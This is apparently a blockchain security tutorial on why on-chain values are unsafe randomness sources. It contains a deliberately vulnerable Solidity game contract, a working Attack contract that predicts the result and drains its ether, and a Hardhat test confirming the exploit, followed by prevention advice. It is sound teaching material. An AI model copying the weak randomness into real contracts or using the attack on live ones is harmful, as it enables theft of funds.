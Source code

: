 ```yaml
---
description: 🤫 A cautionary tale to never use on-chain randomness
---
```


# Never on-chain randomness

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Randomness is a hard problem. Computers run code that is written by programmers, and follows a given sequence of steps. As such, it is extremely hard to design an algorithm that will give you a 'random' number, since that random number must be coming from an algorithm that follows a certain sequence of steps. Now, of course, some functions are better than others.

In this case, we will specifically look at why you cannot trust on-chain data as sources of randomness (and also why Chainlink VRF's).

### ⚒️ Contract

#### 👀 Overview

* We will build a game where there is a pack of cards.
* Each card has a number associated with it which ranges from `0 to 2²⁵⁶–1`
* Player will guess a number that is going to be picked up.
* The dealer will then at random pick up a card from the pack
* If someone correctly guesses the number, they win `0.1 ETH`
* We will hack this game&#x20;

**Setup a Hardhat project**

```shell
mkdir randomness
cd randomness
npm init --yes
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox

# bootstrap the hardhat project
npx hardhat
```

Make sure you select **`Create a Javascript Project`**

Let's first understand what **`abi.encodedPacked`** does.

We have previously used **`abi.encode`** in the Sophomore NFT tutorial, and earlier in the Merkle Tree tutorial.&#x20;

It is a way to concatenate multiple data types into a single bytes array, which can then be converted to a string.&#x20;

This is used to compute the **`tokenURI` ** of NFT collections often.&#x20;

**`encodePacked`** <mark style="color:orange;">takes this a step further, and concatenates multiple values into a single bytes array, but also gets rid of any padding and extra values.</mark>&#x20;

What does this mean?&#x20;

Let's take **`uint256` ** as an example.&#x20;

**`uint256` ** has 256 bits in it's number. But, if the value stored is just `1`, using `abi.encode` will create a string that has 255 `0`'s and only 1 `1`. Using `abi.encodePacked` will get rid of all the extra 0's, and just concatenate the value `1`.

For more information on ** `abi.encodePacked`**, go ahead and read this [article](https://medium.com/@libertylocked/what-are-abi-encoding-functions-in-solidity-0-4-24-c1a90b5ddce8)

Create a new file inside the **`randomness/contracts`**directory and call it **`Game.sol`**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Game {
    constructor() payable {}

    // Randomly picks a number out of `0 to 2²⁵⁶–1`.
    function pickACard() private view returns (uint256) {
        // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
        // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
        // which is further converted to a `uint`.
        // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
        uint256 pickedCard = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number), block.timestamp)
            )
        );
        return pickedCard;
    }

    // It begins the game by first choosing a random number by calling `pickACard`
    // It then verifies if the random number selected is equal to `_guess` passed by the player
    // If the player guessed the correct number, it sends the player `0.1 ether`
    function guess(uint256 _guess) public {
        uint256 _pickedCard = pickACard();
        if (_guess == _pickedCard) {
            (bool sent, ) = msg.sender.call{value: 0.1 ether}("");
            require(sent, "Failed to send ether");
        }
    }

    // Returns the balance of ether in the contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

Create a new file inside the **`randomness/contracts`**directory and call it **`Attack.sol`**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./Game.sol";

contract Attack {
    Game game;

    // Creates an instance of Game contract with the help of `gameAddress`
    constructor(address gameAddress) {
        game = Game(gameAddress);
    }

    // Attacks the `Game` contract by guessing the exact number because `blockhash` and `block.timestamp`
    // is accessible publicly
    function attack() public {
        // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
        // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
        // which is further converted to a `uint`.
        // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
        uint256 _guess = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number), block.timestamp)
            )
        );
        game.guess(_guess);
    }

    // Gets called when the contract receives ether
    receive() external payable {}
}
```

* How the attack takes place is as follows:
  * The hacker calls the **`attack` ** function from the **`Attack.sol`**
  * **`attack` ** further guesses the number using the same method as **`Game.sol`** which is **`uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))`**
  * Attacker is able to guess the same number because blockhash and block.timestamp is public information and everybody has access to it
  * The attacker then calls the **`guess` ** function from **`Game.sol`**
  * **`guess` ** first calls the **`pickACard`** function which generates the same number using **`uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))`** because **`pickACard` ** and **`attack` ** were both called in the same block.
  * **`guess`** compares the numbers and they turn out to be the same.
  * **`guess` ** then sends the **`Attack.sol`  `0.1 ether`** and the game ends
  * Attacker is successfully able to guess the random number

#### Writing the Test

Create a new file inside the **`.../test`**directory and call it **`attack.js`**

```javascript
const { ethers, waffle } = require("hardhat");
const { expect } = require("chai");
const { BigNumber, utils } = require("ethers");

describe("Attack", function () {
  it("Should be able to guess the exact number", async function () {
    // Deploy the Game contract
    const Game = await ethers.getContractFactory("Game");
    const game = await Game.deploy({ value: utils.parseEther("0.1") });
    await game.deployed();

    console.log("Game contract address", game.address);

    // Deploy the attack contract
    const Attack = await ethers.getContractFactory("Attack");
    const attack = await Attack.deploy(game.address);

    console.log("Attack contract address", attack.address);

    // Attack the Game contract
    const tx = await attack.attack();
    await tx.wait();

    const balanceGame = await game.getBalance();
    // Balance of the Game contract should be 0
    expect(balanceGame).to.equal(BigNumber.from("0"));
  });
});

```

Now open up a terminal pointing to `randomness` folder and execute this

```sh
npx hardhat test
```

If all your tests passed, you have successfully completed the hack and were able to predict the randomness with 100% accuracy, so it wasn't really that random.

### 👮 Preventions

* Don't use `blockhash`, `block.timestamp`, or really any sort of on-chain data as sources of randomness
* You can use [Chainlink VRF's](https://docs.chain.link/docs/chainlink-vrf/) for true source of randomness
